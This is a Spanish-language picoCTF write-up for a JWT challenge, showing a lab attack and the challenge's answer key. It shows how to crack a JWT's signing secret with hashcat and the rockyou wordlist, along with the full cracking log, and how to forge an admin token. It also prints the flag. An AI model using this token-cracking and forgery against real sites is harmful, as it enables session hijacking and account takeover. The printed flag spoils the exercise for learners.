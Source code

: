 ## Objetivo
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or http://jupiter.challenges.picoctf.org:61864

## Solución

En este reto nosotros vamos a iniciar sesión en la página https://jupiter.challenges.picoctf.org/problem/61864/, donde podemos ver una scratchpad, nosotros una vez iniciada la sesión, vamos a obtener una cookie, jwt, mediante la extensión cookie editor, una vez obtenida, la vamos a almacenar en un archivo, y además iremos a conseguir el diccionario rockyou.txt, yo lo conseguí de esta página https://github.com/zacheller/rockyou, una vez descomprimido usaremos una herramienta llamada hashcat con el siguiente comando

```bash
hashcat -m 16500 hash rockyou.txt -o pass.txt
```

Luego una vez hecho el intento de crackeo por ataque de diccionario, nosotros hacemos un cat a el archivo pass.txt y observaremos que efectivamente el resultado fue

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoibWlndWVsIn0.N4hIwNhPMz6JxK4p59Hm3USJKz9px5JsqEBnEZTuJvE:ilovepico
```

Esto ya podremos ingresarlo en el sitio jwt.io y cambiarnos la contraseña y el nombre a ilovepico y admin, esta nueva cookie generada la podremos ingresar en el sitio JaWT y obtener la bandera


```bash
mrfear@nightmare ~/home/Desktop
 % ls
rockyou.txt
mrfear@nightmare ~/home/Desktop
 % ls -la
total 136644
drwxrwxrwx 1 mrfear mrfear      4096 Mar  2 16:54 .
drwxrwxrwx 1 mrfear mrfear      4096 Feb 24 19:30 ..
-rwxrwxrwx 1 mrfear mrfear 139921497 Sep 23  2015 rockyou.txt
mrfear@nightmare ~/home/Desktop
 % head rockyou.txt
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
mrfear@nightmare ~/home/Desktop
 % echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoibWlndWVsMTgifQ.v3E2uXhWfND9OCdfHk-Sv6EUtnW1vfh1VhzwvIqM3kk" >> hashmiguel
mrfear@nightmare ~/home/Desktop
 % cat hashmiguel
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoibWlndWVsMTgifQ.v3E2uXhWfND9OCdfHk-Sv6EUtnW1vfh1VhzwvIqM3kk
mrfear@nightmare ~/home/Desktop
 % echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoibWlndWVsIn0.N4hIwNhPMz6JxK4p59Hm3USJKz9px5JsqEBnEZTuJvE" > hash
mrfear@nightmare ~/home/Desktop
 % hashcat -m 16500 hash rockyou.txt -o pass.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-Intel(R) Core(TM) i5-8265U CPU @ 1.60GHz, 1408/2881 MB (512 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384


Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 16500 (JWT (JSON Web Token))
Hash.Target......: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoibW...ZTuJvE
Time.Started.....: Sun Mar  3 18:02:48 2024 (7 secs)
Time.Estimated...: Sun Mar  3 18:02:55 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1128.0 kH/s (0.72ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 7395328/14344384 (51.56%)
Rejected.........: 0/7395328 (0.00%)
Restore.Point....: 7393280/14344384 (51.54%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: iloverober2117* -> ilovepaul.

Started: Sun Mar  3 18:02:47 2024
Stopped: Sun Mar  3 18:02:56 2024
mrfear@nightmare ~/home/Desktop
 % ls
 hash   pass.txt   rockyou.txt
mrfear@nightmare ~/home/Desktop
 % cat pass.txt
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoibWlndWVsIn0.N4hIwNhPMz6JxK4p59Hm3USJKz9px5JsqEBnEZTuJvE:ilovepico
mrfear@nightmare ~/home/Desktop
 %

```


## Bandera
picoCTF{jawt_was_just_what_you_thought_1ca14548}
## Notas

## Referencias